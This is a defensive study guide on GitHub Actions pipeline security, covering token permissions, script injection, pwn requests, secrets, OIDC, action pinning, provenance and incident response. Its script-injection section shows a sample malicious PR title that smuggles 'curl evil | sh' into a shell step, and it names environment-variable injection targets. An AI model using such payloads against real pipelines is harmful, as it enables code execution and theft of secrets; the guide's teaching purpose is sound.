


# Pipeline Security, Secrets and Supply Chain

> Verification note: Verified against the GitHub Actions **Secure use reference**, **Dependency caching reference** and **Actions limits** (docs.github.com, 2026-11-19): `GITHUB_TOKEN` should default to **read-only contents** with per-job escalation; **script injection** is mitigated by passing untrusted context values through an **intermediate environment variable** (or an action) instead of interpolating into `run:`; **`pull_request_target`** and **`workflow_run`** are privileged triggers that must **not check out or execute untrusted PR code** (prefer `workflow_run` for privilege separation, and treat artifacts from other workflows with caution); **secrets** — any user with write access can read repository secrets, redaction is not guaranteed, **don't use structured data (JSON/YAML/XML) as a secret**, register derived or transformed values (Base64/URL-encoded, signed JWTs), delete logs and **rotate** exposed secrets, audit and rotate periodically, and use **environment required reviewers** to gate environment secrets; **third-party actions** — the strongest control is the new **workflow dependency lockfile** (records exact commits including transitive actions and verifies source identity), otherwise **pin to a full-length commit SHA** (verify it is from the action's own repository, not a fork), pin tags only for trusted creators, and **audit action source**; **Dependabot** can update actions (supports SHA pins with a trailing version comment, ignores local actions, no `docker://`) but only creates alerts for semver-referenced actions; **dependency review action**, **CodeQL** (scans workflows), **OpenSSF Scorecards** (script injection, token permissions, pinned actions), **CODEOWNERS on `.github/workflows`**, **OIDC** to cloud providers (no long-lived secrets; custom claims unavailable on AWS), a setting to **prevent Actions from creating/approving PRs**, GitHub-hosted runners as **ephemeral clean VMs with published SBOMs**, **self-hosted runners** (not ephemeral by default, never for public repos, **just-in-time ephemeral runners** via REST API, runner groups, secrets can leak across jobs via process arguments), and audit-log events. **Cache** security: caches are unsigned/unverified, low-trust triggers get read-only default-branch cache, `cache-mode` for least privilege. **Artifact attestations, SLSA levels, Sigstore/cosign signing, npm provenance, SBOM formats, secret-scanning push protection, org-level action allow-lists and install-script policies are established practice that was not re-fetched here — marked *(hedged)*; verify current availability for your plan.** Complements [web-security/07](../web-security/07-supply-chain-and-third-party-script-security.md) (supply chain for the *shipped* app).

## Table of Contents

1. [Quick Summary (TL;DR)](#1-quick-summary-tldr)
2. [Threat Model for CI/CD](#2-threat-model-for-cicd)
3. [Token Permissions and Trust Boundaries](#3-token-permissions-and-trust-boundaries)
4. [Script and Environment Injection](#4-script-and-environment-injection)
5. [Untrusted Code and Privileged Triggers](#5-untrusted-code-and-privileged-triggers)
6. [Secrets and Credentials](#6-secrets-and-credentials)
7. [Third-Party Actions and Workflows](#7-third-party-actions-and-workflows)
8. [Build Supply Chain: Dependencies, SBOM, Provenance, Signing](#8-build-supply-chain-dependencies-sbom-provenance-signing)
9. [Runners](#9-runners)
10. [Caches, Artifacts and Registries](#10-caches-artifacts-and-registries)
11. [Governance, Detection and Response](#11-governance-detection-and-response)
12. [Pitfalls](#12-pitfalls)
13. [Interview Questions — Fundamentals](#13-interview-questions--fundamentals)
14. [Interview Questions — Senior Scenarios](#14-interview-questions--senior-scenarios)
15. [Cheat Sheet](#15-cheat-sheet)
16. [Key Terms Glossary](#16-key-terms-glossary)
17. [Further Reading](#17-further-reading)

---

## 1. Quick Summary (TL;DR)

- **The pipeline is a high-value target:** it holds credentials, builds what you ship, and executes code from many sources (PRs, dependencies, third-party actions). Treat it as **production infrastructure**.
- **Least privilege everywhere:** `GITHUB_TOKEN` read-only by default, environment-scoped secrets released only after approvals, **OIDC short-lived cloud credentials** instead of stored keys, cache/artifact access limited by trust.
- **Never mix untrusted code with privileges:** fork/PR code runs in **unprivileged `pull_request`** workflows; privileged workflows (`pull_request_target`, `workflow_run`, release/deploy) **don't check out or run untrusted code**.
- **Defeat injection:** never interpolate untrusted `${{ }}` values into shell; pass through `env:`; sanitize outputs; beware `GITHUB_ENV`/`GITHUB_OUTPUT` injection.
- **Lock third-party code:** use **workflow dependency lockfiles** where adopted, else **pin full commit SHAs**, audit sources, prefer verified creators, update with Dependabot/review, scan workflows (CodeQL, Scorecards).
- **Secure the build supply chain:** frozen lockfiles, internal registry (Artifactory), install-script controls, dependency review, SBOMs, **provenance/attestations**, and signing *(hedged availability)*.
- **Harden runners:** hosted = ephemeral clean VMs; self-hosted = JIT/ephemeral, groups, no public repos.
- **Detect and respond:** CODEOWNERS on workflows, branch rulesets, audit logs, secret scanning, a documented **rotate-and-revoke** playbook.



---

## 2. Threat Model for CI/CD

| Attack surface | Example threats | Primary controls |
|---|---|---|
| **Untrusted PR code** | Malicious tests/scripts exfiltrate secrets or tokens; modify build | `pull_request` (no secrets), read-only token, approval for first-time contributors *(hedged)*, ephemeral runners |
| **Privileged triggers** (`pull_request_target`, `workflow_run`, `issue_comment`) | "Pwn request": untrusted checkout with write token/secrets | Don't check out untrusted code; privilege separation; least-privilege tokens (verified) |
| **Script injection** | PR title/branch name executed in `run:` | Intermediate env vars; actions instead of inline scripts (verified) |
| **Third-party actions/workflows** | Compromised maintainer/tag moved; malicious update | Lockfiles/SHA pin, audit, allow-list, Dependabot + review, vendor/fork critical actions |
| **Secrets exposure** | Secrets in logs, structured secrets not redacted, long-lived cloud keys | OIDC, masking/registration, rotation, environment protection, secret scanning |
| **Dependency/package attacks** | Malicious or typosquatted npm packages, install scripts, lockfile tampering | Frozen lockfiles, registry proxy, dependency review, script policy, audit |
| **Cache/artifact poisoning** | Malicious cache restored by privileged job | Read-only caches for low-trust triggers, `cache-mode`, no restoring untrusted caches into release jobs |
| **Runner compromise** | Persistent self-hosted runner backdoor, cross-job leakage | Ephemeral/JIT, runner groups, network isolation, no secrets on host |
| **Build tampering** | Output differs from source; stolen signing keys | Provenance/attestations, reproducible-ish builds, signed artifacts, separate release workflow |
| **Over-permissioned automation** | Bots approving/merging PRs, tokens with write-all | Disable Actions creating/approving PRs (verified setting), scoped GitHub Apps/tokens |
| **Insider/credential theft** | Stolen PAT, compromised developer machine | Short-lived creds, SSO, required reviews/CODEOWNERS, audit logs |

**Security objectives:** confidentiality of secrets, integrity of artifacts, availability of delivery, accountability (audit).

---

## 3. Token Permissions and Trust Boundaries

```yaml
permissions: { contents: read }          # workflow-level default (least privilege)
jobs:
  comment:
    permissions: { pull-requests: write } # escalate per job, per need
  release:
    permissions: { contents: write, id-token: write, attestations: write }   # attestations permission: confirm in docs
```
- **Set the repository/org default token permission to read-only** and declare permissions explicitly in each workflow; specifying any scope sets the rest to `none`.
- **`id-token: write`** only in jobs that need OIDC.
- **Reusable workflows:** callee ≤ caller permissions; nested workflows can only downgrade (verified).
- **Don't use PATs** for automation when `GITHUB_TOKEN` or a **GitHub App installation token** (scoped, short-lived) suffices; if a PAT is unavoidable, use fine-grained, minimal-scope, expiring tokens *(hedged)* stored as environment secrets.
- **Trust zones:** map **who can trigger** (fork contributor / collaborator / maintainer) to **what the job can do**. Never grant a low-trust trigger anything that a high-trust one needs.
- **Prevent Actions from creating/approving PRs** unless explicitly needed (verified setting) — otherwise automation could approve its own changes.

---

## 4. Script and Environment Injection

**Vulnerable**
```yaml
- run: echo "PR title: ${{ github.event.pull_request.title }}"      # title = a"; curl evil | sh; "
```
**Safe (verified pattern)**
```yaml
- name: Check PR title
  env:
    TITLE: ${{ github.event.pull_request.title }}
  run: |
    if [[ "$TITLE" =~ ^(feat|fix|chore)(\(.+\))?: ]]; then echo ok; else echo "bad title"; exit 1; fi
```
- **Untrusted inputs:** PR title/body/head ref/branch names, issue/comment bodies, commit messages, author names/emails, workflow_dispatch inputs from low-privilege users, artifact contents, filenames. Branch names can contain shell metacharacters.
- **Alternatives:** use an **action** that takes the value as an argument; use `jq`/node with env access rather than string interpolation; quote shell variables (`"$VAR"`).
- **`GITHUB_ENV` / `GITHUB_OUTPUT` injection:** writing untrusted multi-line data to these files can inject new variables or outputs (e.g., `NODE_OPTIONS`, `LD_PRELOAD`, `PATH`); use random delimiters and validate; never echo untrusted data into `GITHUB_ENV`.
- **Expression injection in `if:`/`with:`** is usually safe from shell injection but can leak/steer logic; keep conditions on trusted fields.
- **Detect:** CodeQL for Actions, OpenSSF Scorecards, static linters for workflows *(hedged)*, code review checklist.

---

## 5. Untrusted Code and Privileged Triggers

| Trigger | Privileges | Rule |
|---|---|---|
| **`pull_request`** | Read-only token, no secrets for forks | Use for building/testing untrusted code |
| **`pull_request_target`** | Base-repo context: secrets + possibly write token; shares the default-branch cache scope | **Avoid** unless necessary; **never check out/execute PR head code**; verified guidance recommends `workflow_run` for privilege separation |
| **`workflow_run`** | Privileged follow-up; consumes artifacts from another run | Don't check out untrusted code; **validate artifacts** (names, types, size, content) as untrusted |
| **`issue_comment`/`issues`** | Low-trust payload with default-branch context | Sanitize; don't run code from the comment; restrict to collaborators |
| **`workflow_dispatch`/`repository_dispatch`** | Triggered by users with write access/app | Validate inputs; environment protection |

**Safe two-stage pattern for fork PRs needing previews/comments**
1. **Stage 1 (`pull_request`, unprivileged):** build/test; upload artifact containing **data only** (e.g., build output, PR number).
2. **Stage 2 (`workflow_run`, privileged):** download the artifact, **validate**, then perform the privileged action (comment, deploy to a sandbox) **without executing artifact content as code** (or run it only in an isolated sandbox environment). Alternatively limit previews to same-repo branches.

**Other controls:** require approval to run workflows from **first-time/outside contributors** *(hedged setting name)*; restrict which actions/workflows may run (org policy); set `cache-mode: read`/restore-only for low-trust jobs (verified); never reuse a self-hosted runner for untrusted PRs.

---

## 6. Secrets and Credentials

**Storage and scoping (verified guidance)**
- Secrets at **org/repo/environment** level; anyone with **write access can read repository secrets** (by writing a workflow) → give secrets only to the least-privileged scope and use **environment secrets with required reviewers** (released only after approval) for production.
- **Never plaintext in workflow files**; mask non-secret sensitive values with `::add-mask::`.
- **No structured secrets** (JSON blobs/YAML/XML/kubeconfig as one secret) — redaction relies on exact string match; split into individual secrets.
- **Register derived/transformed values** (Base64, URL-encoded, JWTs generated from private keys) so they're redacted.
- **Audit secret use** (review actions/scripts for exfiltration, check logs with valid/invalid inputs), **rotate periodically**, remove unused secrets; **if a secret leaks into logs: delete logs and rotate** (verified).
- **Use `vars` for non-secret config.**

**Prefer short-lived federation: OIDC** (verified)
```yaml
permissions: { id-token: write, contents: read }
jobs:
  deploy:
    environment: production
    runs-on: bby-ubuntu
    steps:
      - uses: bby-corp/tplat-gha-configure-github-credentials@v1      # org-recommended GIAM credentials action; confirm inputs/version
      # cloud login via OIDC trust policy scoped to repo + environment + branch/tag claims; no stored long-lived keys
```
- Trust policies should match **claims** (repository, environment, ref, workflow) so only intended workflows can assume roles; note **custom claim support varies by provider** (not on AWS — verified).
- **Secrets managers (Vault etc.)** with OIDC auth to fetch short-lived secrets at runtime *(hedged)*.
- **Secret scanning and push protection** to catch committed credentials *(hedged: plan availability)*; pre-commit hooks complement.
- **Third-party SaaS tokens** (error tracker, CDN): scope to the minimum (e.g., upload-only source maps), per environment, rotate.
- **Never print env**; avoid `set -x`; be careful with CLI tools that echo tokens in errors (verified advice to review logs after invalid-input tests).
- **Secrets as CLI args** can be visible to other processes on the same runner (`ps`) — verified risk on shared self-hosted runners; prefer env/stdin/files with restricted permissions.

---

## 7. Third-Party Actions and Workflows

**Why it matters (verified):** a compromised action in any job can access all secrets configured for that job/repo and may use `GITHUB_TOKEN` to write to the repository; jobs can also interfere with later jobs via shared environment/files/Docker socket.

**Controls, strongest first**
1. **Workflow dependency lockfiles** (verified, newer feature): record exact commits for every action and transitive dependency and **verify source identity at run time**; supersedes SHA pinning where adopted.
2. **Pin to a full-length commit SHA** (verify the SHA belongs to the action's repo, not a fork): `uses: actions/checkout@<40-hex> # v6.x.y`. A tag can be moved or deleted if the repo is compromised, even for trusted authors.
3. **Pin tags only for actions from creators you trust** (Marketplace **Verified creator** badge is a signal, not a guarantee).
4. **Audit the source** of every action: where does it send data? does it log secrets? what does it execute?
5. **Allow-list actions org-wide** (policy: GitHub-owned, verified creators, explicit list) *(hedged)*.
6. **Prefer first-party or in-house actions;** vendor/fork critical third-party actions into the org and review updates.
7. **Update deliberately:** Dependabot version updates for `github-actions` (works with SHA pins + `# tag` comments; ignores local actions) and **dependency review** on workflow changes (verified); note Dependabot **alerts** only cover semver-referenced actions, not SHA-pinned ones — combine with Scorecards/dependency review.
8. **Scan workflows:** CodeQL (Actions support) and **OpenSSF Scorecards** (script injection, token permissions, pinned dependencies — verified).
9. **Same rules for third-party reusable workflows** (pin by SHA).
10. **Limit blast radius:** isolate jobs using third-party actions from jobs holding secrets; give them minimal permissions; avoid running them in release/deploy jobs when possible.

**CODEOWNERS for workflows:** require security/platform review for any change to `.github/workflows/**` and reusable workflow repos (verified recommendation).

---

## 8. Build Supply Chain: Dependencies, SBOM, Provenance, Signing

**Dependencies (the code you ship)** — overlaps with [web-security/07](../web-security/07-supply-chain-and-third-party-script-security.md)
- **Lockfile + frozen installs** (`npm ci`, `pnpm install --frozen-lockfile`); review lockfile diffs; fail CI if the lockfile changes during install.
- **Internal registry/proxy (Artifactory)** as the single source (org default `npm-virtual`); allow only vetted packages/versions; block direct registry access from CI where possible *(hedged policy)*.
- **Install scripts:** disable by default (`--ignore-scripts`) and allow-list those needed (esbuild/sharp/etc.) *(hedged: package-manager-specific options)*; many npm attacks use postinstall.
- **Dependency review action** on PRs (verified) for newly added vulnerable versions/licenses; `npm audit`/OSV scans on schedule; Dependabot/Renovate updates with grouped PRs and CI gates.
- **Typosquatting/dependency confusion:** scoped internal packages, registry priority rules, package name reservation.
- **Tool downloads:** verify checksums/signatures for binaries fetched in CI (don't `curl | sh`).

**SBOM, provenance, signing** *(hedged: formats and availability)*
- **SBOM** (CycloneDX or SPDX) generated at build and stored with the release; GitHub also publishes SBOMs for hosted runner images (verified) — include them in your bill of materials.
- **Provenance/attestations:** record **what source, workflow and builder produced this artifact** (GitHub artifact attestations; SLSA provenance); verify in deploy jobs before promotion. **npm provenance** for published packages when supported.
- **Signing:** sign container images/artifacts (Sigstore/cosign-style keyless signing via OIDC) and **verify at deploy** (admission policy on Kubernetes; checks in deploy workflow).
- **SLSA framing:** levels progress from scripted builds → hosted, tamper-resistant builds with signed provenance → hardened, isolated builders; use as a roadmap, not a checkbox.
- **Reproducibility:** deterministic builds (pinned toolchains, no timestamps) make provenance meaningful; at minimum **build once in a protected workflow** and deploy that exact digest.
- **Separate release workflow:** only a protected branch/tag, with environment approval, can produce **signed** release artifacts; PR workflows never hold signing keys.
- **Source maps and debug artifacts:** upload to the error tracker with scoped tokens; don't expose secrets in bundles (secret scanning on build output) ([web-security/08](../web-security/08-secure-frontend-patterns-and-vulnerability-catalogue.md)).

---

## 9. Runners

| | GitHub-hosted | Self-hosted |
|---|---|---|
| Isolation | **Ephemeral, clean VMs** per job (verified); runner image SBOMs published | **Not guaranteed clean/ephemeral**; can be persistently compromised by untrusted workflow code (verified) |
| Public repos | Safe model (no persistent compromise) | **Almost never** (anyone can open a PR) |
| Hardening | Blocks known mining-pool hosts via `/etc/hosts` (verified) | **JIT ephemeral runners** via REST API (`./run.sh --jitconfig`), runner groups with repo/org restrictions, minimal secrets/metadata access, network egress control |
| Secrets exposure | Per job | Other jobs on the same host can observe process args (verified risk) |

**Guidance:** default to GitHub-hosted; for self-hosted use autoscaled **ephemeral JIT** runners in isolated networks, separate groups by trust level (never run untrusted PRs next to deploy credentials), no long-lived credentials on the host, patching, logging/monitoring. Use **larger runners** (still GitHub-managed) for performance rather than self-hosting where possible; org guidance: limit large-runner concurrency.

---

## 10. Caches, Artifacts and Registries

- **Caches:** unsigned/unverified; **never store secrets**; **low-trust triggers are read-only** for default-branch caches (verified); don't let untrusted workflows write caches that release jobs restore; consider **no cache in release builds** or hash-verify; use `cache-mode: read/none` ([03](03-github-actions-reuse-caching-artifacts-and-speed.md)).
- **Artifacts from untrusted workflows** are untrusted data; validate before use; never execute; avoid `download-artifact` into a privileged job's workspace then running scripts from it.
- **Registries:** push only from trusted workflows via OIDC/scoped tokens; **immutable tags/digests**; retention and cleanup policies; vulnerability scanning on push; deploy by **digest**, not mutable tag.
- **Container images:** minimal base images, non-root, pinned base digests, scan (Trivy/Grype-style *(hedged)*), multi-stage builds ([05](05-building-and-packaging-web-applications.md)).
- **Logs:** treat as sensitive; retention policy; delete if secrets leak (verified).

---

## 11. Governance, Detection and Response

**Preventive governance**
- **Branch protection/rulesets:** required PR reviews (CODEOWNERS), required status checks (including security scans), no force pushes, restrict who can bypass (audited break-glass).
- **CODEOWNERS** on `.github/workflows/**`, deploy scripts, infra code, shared workflow repos (verified).
- **Environment protection:** required reviewers (≤ 6; one approval by default), prevent self-review, wait timers, branch/tag restrictions for production (verified in earlier categories).
- **Org policies:** allowed actions, workflow permissions defaults, restrictions on who can create runners/secrets, PR approval policies.
- **Separation of duties:** developers can propose changes; release to production requires an approval path independent of the author where policy demands.

**Detective controls**
- **Audit log** events (e.g., `org.update_actions_secret` — verified), secret-scanning alerts, Dependabot/CodeQL/Scorecards findings, workflow run anomalies (new workflows, unusual triggers, outbound network calls) *(hedged: network egress monitoring on self-hosted)*, review of changes to workflow files.
- **Dependency graph** shows actions used and their pins (verified).

**Incident response playbook for a suspected CI compromise** *(established practice, hedged)*
1. **Contain:** disable affected workflows/runners; block the action/version; revoke/rotate exposed secrets and tokens (start with cloud credentials and registry tokens); disable OIDC trust policy if needed.
2. **Assess:** audit logs, workflow runs, artifacts, deployed versions; identify what the job could access; check for modified workflows/branches/tags/releases.
3. **Eradicate:** remove malicious changes, rebuild affected artifacts from clean state, re-sign; pin/upgrade actions; rotate again after cleanup.
4. **Recover:** redeploy known-good artifacts; verify provenance; communicate to stakeholders/customers as required.
5. **Learn:** root cause, add controls (pins/lockfile, least privilege, OIDC), update runbooks, practice ("game day").

---

## 12. Pitfalls

1. **Default write-all token permissions** or `permissions: write-all`.
2. **Checking out PR head in `pull_request_target`/`workflow_run`** with secrets available.
3. **Inline `${{ github.event.* }}` in shell scripts.**
4. **Long-lived cloud keys in repo secrets** instead of OIDC.
5. **Structured JSON as one secret; Base64 transforms not registered** → leaks in logs.
6. **Unpinned third-party actions on moving tags** (`@main`, `@v1` from unknown authors).
7. **Self-hosted runners on public repos / persistent runners shared across trust levels.**
8. **Caches/artifacts from untrusted runs restored in release jobs.**
9. **Same job both runs untrusted dependencies and holds deploy credentials.**
10. **No CODEOWNERS/review for workflow changes;** admin bypass as routine.
11. **Ignoring install scripts and registry controls** for npm.
12. **Signing keys accessible to PR workflows.**
13. **Dependabot alerts assumed to cover SHA-pinned actions** (they don't — use other scanners).
14. **No rotation/audit of secrets;** unknown owners.
15. **No incident playbook** for a compromised action/token.

---

## 13. Interview Questions — Fundamentals

- **Why is CI/CD security important?** Pipelines hold credentials, build shipped artifacts and run untrusted code; compromise leads to secret theft and supply-chain attacks.
- **How do you secure `GITHUB_TOKEN`?** Default read-only, per-job `permissions`, `id-token: write` only for OIDC.
- **What is script injection in Actions?** Untrusted context values interpolated into shell; fix with intermediate env vars or actions.
- **Why is `pull_request_target` dangerous?** Privileged context (secrets/write token) combined with untrusted code checkout enables repository takeover.
- **What's OIDC and why use it?** Token federation giving short-lived cloud credentials scoped by claims; no stored long-lived keys.
- **How do you pin actions?** Full-length commit SHA (verified not from a fork) or workflow dependency lockfile; tags only for trusted creators.
- **How do you protect secrets?** Least privilege scope, environment approvals, no structured secrets, masking/registration, rotation, OIDC, audit.
- **Hosted vs self-hosted runner security?** Hosted: ephemeral clean VMs; self-hosted: persistent risk, never for public repos, use JIT.
- **What is cache poisoning?** Malicious cache entries restored by later privileged jobs; mitigate with read-only caches for low-trust triggers.
- **What are SBOM and provenance?** Bill of materials of components; signed record of how/where an artifact was built.
- **How do you reduce npm supply-chain risk in CI?** Frozen lockfiles, registry proxy, install script controls, dependency review, scans, SBOM.
- **What does CODEOWNERS on workflows do?** Requires designated review for pipeline changes.
- **How do you respond to leaked secrets in logs?** Delete logs, rotate secrets, review usage, fix the leak path.
- **What's separation of privilege between workflows?** Unprivileged build produces data artifacts; privileged workflow validates and acts without executing untrusted code.

---

## 14. Interview Questions — Senior Scenarios

### S1. "Open-source-style fork PRs need preview deploys. Design it safely."
Unprivileged `pull_request` builds and uploads a data-only artifact; a privileged `workflow_run` validates the artifact (size/type/hash), deploys to a **sandboxed** preview environment with a scoped credential, and comments on the PR; no checkout of PR code in the privileged workflow; short-lived preview environments; approvals for outside contributors; audit logs; threat-model review ([02 §3](02-github-actions-fundamentals-workflows-and-runners.md#3-events-and-triggers)).

### S2. "A widely used third-party action was reported compromised. What now?"
Identify usage (dependency graph/code search); disable workflows or pin to a known-good SHA; review runs during the exposure window; rotate every secret the affected jobs could access; check for unexpected pushes/releases/artifacts; update to a fixed version after review; adopt lockfiles/SHA pins, allow-lists and minimal job permissions; document the incident.

### S3. "Move from stored AWS/GCP keys to OIDC."
Create cloud IAM roles/workload identity trust policies bound to repo + environment + branch/tag claims; add `id-token: write` only to deploy jobs; use the org GIAM action for credentials; remove stored keys and rotate; test in staging; add alarms for role assumptions; restrict trust to protected environments; update runbooks ([06](06-deployment-strategies-environments-and-infrastructure.md)).

### S4. "Security asks for provenance and signed artifacts."
Build in a protected release workflow only; generate SBOM; create attestations/provenance (hedged tooling) tied to workflow identity; sign images/artifacts with keyless signing; verify signature + provenance in the deploy job (and admission control in Kubernetes) before promotion; deploy by digest; store attestations with releases; document verification steps.

### S5. "How do you harden the npm install step?"
Registry proxy with curated packages; frozen lockfile; `--ignore-scripts` + allowlisted exceptions; dependency review + audit; network-restricted install job without secrets; separate jobs: install/build (no secrets) vs deploy (secrets, no dependency execution); SBOM; Renovate/Dependabot with cooldown/grouping *(hedged)*.

### S6. "Developers complain security controls slow them down."
Make secure paths the **paved road** (reusable workflows with pins and permissions baked in, OIDC defaults), automate checks (Dependabot, dependency review), keep PR pipelines unprivileged and fast, reserve manual approvals for production, measure friction (lead time, bypass events), and iterate with the platform and security teams ([frontend-architecture/08](../frontend-architecture/08-teams-governance-platform-and-delivery.md)).

---

## 15. Cheat Sheet

| Risk | Control |
|---|---|
| Over-privileged token | `permissions: contents: read` default; escalate per job |
| Script injection | `env:` intermediate variable; no inline `${{ }}` in `run` |
| Pwn requests | No untrusted checkout in `pull_request_target`/`workflow_run` |
| Long-lived cloud keys | OIDC + claim-scoped trust |
| Structured secrets | One secret per value; register derived values |
| Third-party actions | Lockfile or full SHA; audit; allow-list; Dependabot + review |
| Cache poisoning | Read-only for low-trust; `cache-mode`; no secrets in cache |
| Runner compromise | Hosted or JIT ephemeral; runner groups; no public repos |
| Supply chain (npm) | Frozen lockfile, proxy, install-script policy, dependency review, SBOM |
| Artifact trust | Provenance + signing + deploy by digest |
| Governance | CODEOWNERS on workflows, rulesets, environments, audit logs |
| Incident | Contain → rotate → assess → rebuild → learn |



---

## 16. Key Terms Glossary

| Term | Meaning |
|---|---|
| **Pwn request** | Exploit via privileged workflow executing untrusted PR code |
| **Script injection** | Executing attacker-controlled text via shell interpolation |
| **OIDC federation** | Short-lived identity tokens for cloud access |
| **SHA pinning** | Referencing an action by full commit hash |
| **Workflow dependency lockfile** | Record of exact action commits with identity verification |
| **JIT runner** | Ephemeral self-hosted runner used for a single job |
| **SBOM** | Software bill of materials |
| **Provenance / attestation** | Signed statement of how an artifact was built |
| **SLSA** | Framework of supply-chain integrity levels |
| **Cache poisoning** | Injecting malicious cache entries |
| **CODEOWNERS** | Required-reviewer mapping |
| **Break-glass** | Audited emergency bypass of controls |

---

## 17. Further Reading

- [Secure use reference](https://docs.github.com/en/actions/reference/security/secure-use) · [Dependency caching reference](https://docs.github.com/en/actions/reference/workflows-and-actions/dependency-caching) · [OpenSSF Scorecard](https://github.com/ossf/scorecard) · [GitHub Security Lab: preventing pwn requests](https://securitylab.github.com/research/github-actions-preventing-pwn-requests/) *(hedged: confirm URLs)*
- **This repo:** [02 GitHub Actions fundamentals](02-github-actions-fundamentals-workflows-and-runners.md) · [03 Reuse, caching and speed](03-github-actions-reuse-caching-artifacts-and-speed.md) · [05 Building and packaging](05-building-and-packaging-web-applications.md) · [06 Deployment](06-deployment-strategies-environments-and-infrastructure.md) · [web-security/07](../web-security/07-supply-chain-and-third-party-script-security.md) · [testing/07 §10](../testing/07-flakiness-ci-and-non-functional-testing.md#10-security-and-dependency-guardrails-in-ci) · [react-native/14 §4](../react-native/14-ci-cd-with-github-actions.md#4-signing-secrets-and-environment-configuration)
